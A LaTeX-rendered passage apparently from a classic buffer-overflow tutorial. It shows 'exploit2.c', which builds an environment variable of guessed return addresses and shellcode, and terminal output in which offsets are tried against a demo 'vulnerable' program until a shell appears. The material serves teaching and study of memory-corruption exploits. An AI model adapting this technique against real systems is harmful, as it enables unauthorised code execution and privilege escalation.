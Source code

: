 \documentclass[10pt]{article}
\begin{document}
\begin{CJK}{UTF8}{bsmi}
\begin{lstlisting}[caption=exploit2.c,frame=single,frameround=tttt,breaklines=true]
void main(int argc, char *argv[]) 
{
  char *buff, *ptr;
  long *addr_ptr, addr;
  int offset=DEFAULT_OFFSET, bsize=DEFAULT_BUFFER_SIZE;
  int i;

  if (argc > 1) bsize  = atoi(argv[1]);
  if (argc > 2) offset = atoi(argv[2]);
  if (!(buff = malloc(bsize))) 
  {
    printf("Can't allocate memory.\n");
    exit(0);
  }

  addr = get_sp() - offset;
  printf("Using address: 0x%x\n", addr);
  ptr = buff;
  addr_ptr = (long *) ptr;
  for (i = 0; i < bsize; i+=4)
    *(addr_ptr++) = addr;

  ptr += 4;
  for (i = 0; i < strlen(shellcode); i++)
    *(ptr++) = shellcode[i];

  buff[bsize - 1] = '\0';
  memcpy(buff,"EGG=",4);
  putenv(buff);
  system("/bin/bash");
}
\end{lstlisting}


Now we can try to guess what the buffer and offset should be:

\begin{verbatim}
[aleph1]$ ./exploit2 500
Using address: 0xbffffdb4

[aleph1]$ ./vulnerable $EGG
[aleph1]$ exit

[aleph1]$ ./exploit2 600
Using address: 0xbffffdb4

[aleph1]$ ./vulnerable $EGG
Illegal instruction

[aleph1]$ exit

[aleph1]$ ./exploit2 600 100
Using address: 0xbffffd4c

[aleph1]$ ./vulnerable $EGG
Segmentation fault

[aleph1]$ exit

[aleph1]$ ./exploit2 600 200
Using address: 0xbffffce8

[aleph1]$ ./vulnerable $EGG
Segmentation fault

[aleph1]$ exit
.
.
.

[aleph1]$ ./exploit2 600 1564
Using address: 0xbffff794

[aleph1]$ ./vulnerable $EGG
$
\end{verbatim}


\end{CJK}
\end{document}
